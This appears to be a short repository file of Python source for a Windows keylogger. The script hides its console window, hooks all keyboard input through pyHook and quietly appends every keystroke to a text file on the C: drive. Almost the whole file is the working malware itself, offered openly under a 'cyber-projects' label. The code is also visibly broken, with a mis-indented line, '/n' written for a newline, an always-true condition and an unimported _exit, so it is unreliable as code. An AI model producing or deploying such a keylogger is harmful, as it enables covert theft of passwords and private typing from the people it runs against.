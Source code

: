 # cyber-projects
# Python code for keylogger
# to be used in windows
import win32api
import win32console
import win32gui
import pythoncom, pyHook

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
	if event.Ascii==5:
		_exit(1)
	if event.Ascii !=0 or 8:
	#open output.txt to read current keystrokes
		f = open('c:\output.txt', 'r+')
		buffer = f.read()
		f.close()
	# open output.txt to write current + new keystrokes
		f = open('c:\output.txt', 'w')
		keylogs = chr(event.Ascii)
		if event.Ascii == 13:
		keylogs = '/n'
		buffer += keylogs
		f.write(buffer)
		f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
# wait forever
pythoncom.PumpMessages()
